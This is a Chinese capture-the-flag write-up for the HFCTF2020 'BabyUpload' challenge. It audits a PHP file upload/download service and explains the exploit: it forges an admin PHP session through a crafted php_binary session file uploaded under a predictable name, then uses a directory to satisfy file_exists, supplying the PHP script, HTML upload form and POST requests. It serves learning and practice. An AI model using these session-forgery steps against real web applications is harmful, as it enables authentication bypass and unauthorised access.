






# \[HFCTF2020]BabyUpload

## \[HFCTF2020]BabyUpload

## 考点

* PHP session伪造
* PHP session反序列化
* PHP session特性
* file\_exists特性
* 代码审计

## wp

前面几行定义了初始环境，session文件存储位置`/var/babyctf/`

```php
error_reporting(0);
session_save_path("/var/babyctf/");
session_start();
require_once "/flag";
highlight_file(__FILE__);
```

然后说明了如何获取flag，要让session中的`username`字段是`admin`，并且`/var/babyctf/success.txt`文件存在，才会给出flag。并且一开始的`$_SESSION['username']`为`guest`

```php
if($_SESSION['username'] ==='admin')
{
    $filename='/var/babyctf/success.txt';
    if(file_exists($filename)){
            safe_delete($filename);
            die($flag);
    }
}
else{
    $_SESSION['username'] ='guest';
}
```

然后说明了对输入的操作，`filter_input(input_type, variable, filter, options)`函数从脚本外部获取输入，并进行过滤，这里是指获取POST的参数`direction`和`attr`。

如果`attr`为`private`，则`dir_path`为`/var/babyctf/private/guest`

否则为`/var/babyctf/$attr`

```php
$direction = filter_input(INPUT_POST, 'direction');
$attr = filter_input(INPUT_POST, 'attr');
$dir_path = "/var/babyctf/".$attr;
if($attr==="private"){
    $dir_path .= "/".$_SESSION['username'];
}
```

最后是两种模式`upload`和`download`的处理逻辑

upload的逻辑

假设上传的文件名字是`test.txt`，那`file_path`就是`/var/babyctf/$attr/test.txt_上传文件内容的sha256`。并且`file_path`中不包含`../`和`..\\`。然后创建`/var/babyctf/$attr`文件夹，将上传的文件保存到`file_path`

```php
if(!is_uploaded_file($_FILES['up_file']['tmp_name'])){
	throw new RuntimeException('invalid upload');
}
$file_path = $dir_path."/".$_FILES['up_file']['name'];
$file_path .= "_".hash_file("sha256",$_FILES['up_file']['tmp_name']);
if(preg_match('/(\.\.\/|\.\.\\\\)/', $file_path)){
	throw new RuntimeException('invalid file path');
}
@mkdir($dir_path, 0700, TRUE);
if(move_uploaded_file($_FILES['up_file']['tmp_name'],$file_path)){
	$upload_result = "uploaded";
}else{
	throw new RuntimeException('error while saving');
}
```

download的逻辑

获取POST的`filename`参数，并用`basename`函数返回`filename`中的文件名部分，然后和`/var/babyctf/$attr`拼接赋值给`file_path`，且`file_path`也不能包含`../`和`..\\`。后面就是返回这个文件了。

```php
$filename = basename(filter_input(INPUT_POST, 'filename'));
$file_path = $dir_path."/".$filename;
if(preg_match('/(\.\.\/|\.\.\\\\)/', $file_path)){
	throw new RuntimeException('invalid file path');
}
if(!file_exists($file_path)) {
	throw new RuntimeException('file not exist');
}
header('Content-Type: application/force-download');
header('Content-Length: '.filesize($file_path));
header('Content-Disposition: attachment; filename="'.substr($filename, 0, -65).'"');
if(readfile($file_path)){
	$download_result = "downloaded";
}else{
	throw new RuntimeException('error while saving');
}
```

大概思路就是要先进行session伪造，把自己变成admin，然后上传一个success.txt就可以了

可以先看一下自己的session文件，看一下是用的什么序列化方式。POST下面的内容

```
direction=download&filename=sess_5f5a2aee2ccc219dbea0f78b5001d600
```

得到结果 `usernames:5:"guest";`，这种session序列化的方式是`php_binary`，然后就可以生成session文件

```php
<?php
ini_set('session.serialize_handler', 'php_binary');
session_save_path("./");
session_start();
$_SESSION['username'] = 'admin';
```

要注意的是不能直接用记事本改，PHP生成的session文件的要比记事本多个`08`






下面找一下怎么伪造，在`upload`处有一个文件名的拼接。如果POST传`attr`为空，然后上传的文件名是`sess`，内容是上述的session文件，那么其sha256可以这样生成

```
php -r "echo hash_file('sha256', 'sess');"
```

结果是`432b8b09e30c4a75986b719d1312b63a69f1b833ab602c9ad5f0299d1d76a5a4`

那最后的`file_path`就是`/var/babyctf//sess_432b8b09e30c4a75986b719d1312b63a69f1b833ab602c9ad5f0299d1d76a5a4`

而本题session存储的位置就是`/var/babyctf/`，改一下PHPSESSID就可以伪造admin了

```php
$attr = filter_input(INPUT_POST, 'attr');
$dir_path = "/var/babyctf/".$attr;
$file_path = $dir_path."/".$_FILES['up_file']['name'];
$file_path .= "_".hash_file("sha256",$_FILES['up_file']['tmp_name']);
```

在本地写个html，注意`name`要和题目中的POST参数对应，选择刚刚生成的session文件，然后上传

```html
<!DOCTYPE html>
<html>
<body>
<form action="http://7d1fb450-ca22-4aa7-b61d-ee3f3c3b9a9a.node3.buuoj.cn/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="direction" value="upload" />
    <input type="file" name="up_file" />
    <input type="submit" value="submit" />
</form>
</body>
</html>
```



然后去用`download`验证是否上传成功，成功上传，将PHPSESSID改成`432b8b09e30c4a75986b719d1312b63a69f1b833ab602c9ad5f0299d1d76a5a4`就成功伪造了admin




接下来是如何创建`success.txt`，注意这里是用`file_exists`判断文件是否存在的，**file\_exists不仅可以判断文件，也可以判断目录**

```php
    $filename='/var/babyctf/success.txt';
    if(file_exists($filename)){
            safe_delete($filename);
            die($flag);
    }
```

虽然本题文件名不完全可控，但是路径是完全可控的，如果在上传中，让`attr`为`success.txt`，那最后的`filename`就是

```
/var/babyctf/success.txt/sess_432b8b09e30c4a75986b719d1312b63a69f1b833ab602c9ad5f0299d1d76a5a4
```

`file_exists('/var/babyctf/success.txt')`肯定是会返回True的，再用admin的身份访问index就可以了。

### 流程梳理

1.生成session文件，并把文件名改成`sess`

```php
<?php
ini_set('session.serialize_handler', 'php_binary');
session_save_path("./");
session_start();
$_SESSION['username'] = 'admin';
```

2.获取`sess`的sha256



3.新建html，让其中的`name`属性与源码中POST的参数对应，实现上传

```html
<!DOCTYPE html>
<html>
<body>
<form action="http://7d1fb450-ca22-4aa7-b61d-ee3f3c3b9a9a.node3.buuoj.cn/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="direction" value="upload" />
	<input type="hidden" name="attr" value="success.txt" />
    <input type="file" name="up_file" />
    <input type="submit" value="submit" />
</form>
</body>
</html>
```


4.POST传递`direction=download&filename=sess_432b8b09e30c4a75986b719d1312b63a69f1b833ab602c9ad5f0299d1d76a5a4`判断是否上传成功


5.修改PHPSESSID访问index



## 小结

1. **file\_exists不仅可以判断文件，也可以判断目录**
